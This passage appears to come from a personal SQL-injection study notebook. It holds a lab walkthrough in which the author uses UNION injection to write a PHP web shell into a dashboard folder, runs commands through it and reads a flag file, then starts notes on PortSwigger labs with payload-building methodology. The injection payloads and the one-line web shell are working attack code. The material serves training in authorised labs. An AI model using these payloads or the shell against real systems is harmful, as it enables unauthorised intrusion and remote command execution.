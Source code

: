 Since we cannot get the port for connecting to the database, let's see if we can write a web shell there. For first, we need to check for write privileges:
```
cn' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
We get `SECURE_FILE_PRIV` but its value is empty. It means we have read/write permissions.

I noted that if I try to write on the web root, I get `Permission denied`. Let's try to write in `dashboard` folder:
```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```
This time we didn't get any error. Let's visit http://167.71.138.188:31379/dashboard/shell.php?0=id:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
It works! Let's retrieve the root flag by visiting http://167.71.138.188:31379/dashboard/shell.php?0=ls+/ and we get:
```
bin boot dev etc flag_cae1dadcd174.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var 
```
Now, read the root flag by:
```
cn' UNION SELECT 1, LOAD_FILE("/flag_cae1dadcd174.txt"), 3, 4, 5-- -
```

# Portswigger Labs

In this chapter I will text useful SQL statements and concepts.

Remember that on SQL injection, the path to follow is the following:
* Identify the vulnerable parameter
* Identify the kind of SQL injection (non-blind or blind)
* Identify the database
* Identify the number of columns that the page can shown (use NULL technique or SELECT '1','2',... technique).
  * If you get 500 Internal Error, it could suggest the web application is vulnerable to SQLi, you must only to search the right number of columns.
* Build your SQL payload according to the number of columns that the web page can show.
  * For example, for getting the version of MySQL database, it's not enough to do `' UNION SELECT @@version-- -` if there are one hidden column and two visible columns. You must do `' UNION SELECT NULL,@@version,NULL-- -` (put @@version in the position of the visible column)

There are important differences on building a SQL payload between Oracle and non-Oracle databases. A very useful resource about this it is on: https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet

## Lab: Blind SQL injection with conditional responses
